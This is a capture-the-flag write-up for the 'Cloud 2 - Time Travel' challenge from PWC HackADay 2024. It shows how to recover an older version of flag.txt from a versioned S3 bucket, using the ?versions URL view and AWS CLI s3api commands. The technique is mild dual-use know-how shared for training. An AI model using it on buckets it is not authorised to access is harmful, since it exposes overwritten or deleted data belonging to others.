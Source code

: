 ```yaml
---
title: Cloud 2 - Time Travel
description: The objective of the Cloud 2 - Time Travel challenge is to retrieve an older version of the flag stored in an AWS S3 bucket.
date: 2024-11-11 00:00:00+0000
categories:
   - PWC HackADay 2024
   - CTF Writeup
tags:
   - Cloud
weight: 1     
---
```

# Cloud 2 - Time Travel

## Challenge Information
- **Name**: Cloud 2 - Time Travel
- **Points**: 100
- **Category**: Cloud
- **Objective**: Retrieve an older version of a file (`flag.txt`) stored in an AWS S3 bucket.

## Solution

### GUI Approach
1. Append `/?versions` to the challenge-provided URL to access the versioning view of the S3 bucket.
   - Example: `http://<bucket-url>/?versions`
2. Observe two versions of `flag.txt`:
   - One is **70 KB**, and the other is **71 KB**.

   ![Flag](image.png)

3. As far as I know, GUI does not support direct access to older versions of the file
4. Hence, CLI is required to proceed
5. But I might be wrong

### CLI Approach
1. **Check S3 Bucket Versioning**: Use the following command to confirm bucket versioning and list available versions
    ```bash
    aws s3api get-bucket-versioning --bucket <s3-bucket-name>
    ```
2. **List Object Versions**: Retrieve all versions of flag.txt with
    ```bash
    aws s3api list-object-versions --bucket <s3-bucket-name> --prefix "flag.txt"
    ```
3. **Retrieve the Old File**: Use the specific VersionId for the older version (e.g., KjCs3l2ZKNtHVTKB1R8IdzoidxwuQwFt) to download the file
    ```bash
    aws s3api get-object --bucket <bucket>\
                     --key "flag.txt" \
                     --version-id "KjCs3l2ZKNtHVTKB1R8IdzoidxwuQwFt" \
                     oldflag --profile ccx
    ```

   ![Flag](image-1.png)